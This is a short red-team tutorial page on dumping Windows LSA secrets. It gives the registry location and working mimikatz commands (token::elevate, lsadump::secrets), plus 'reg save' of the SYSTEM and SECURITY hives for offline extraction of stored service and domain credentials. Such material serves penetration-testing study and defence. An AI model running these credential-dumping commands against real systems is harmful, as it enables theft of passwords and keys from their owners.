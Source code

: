 # Dumping LSA Secrets

> **What is stored in LSA secrets?**
>
> Originally, the secrets contained cached domain records. Later, Windows developers expanded the application area for the storage. At this moment, they can store PC users' text passwords, service account passwords (for example, those that must be run by a certain user to perform certain tasks), Internet Explorer passwords, RAS connection passwords, SQL and CISCO passwords, SYSTEM account passwords, private user data like EFS encryption keys, and a lot more. For example, the _NL$KM_ secret contains the cached domain password encryption key.

## Storage

LSA Secrets are stored in registry:

```
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-20-39.png)

## Execution

### Memory

Secrets can be dumped from memory like so:

{% code title="attacker@mimikatz" %}
```
token::elevate
lsadump::secrets
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-25-01.png)

### Registry

LSA secrets can be dumped from registry hives likes so:

{% code title="attacker@victim" %}
```csharp
reg save HKLM\SYSTEM system & reg save HKLM\security security
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-37-11.png)

{% code title="attacker@mimikatz" %}
```csharp
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-38-02.png)

## References

{% embed url="https://www.passcape.com/index.php?section=docsys&cmd=details&id=23" %}
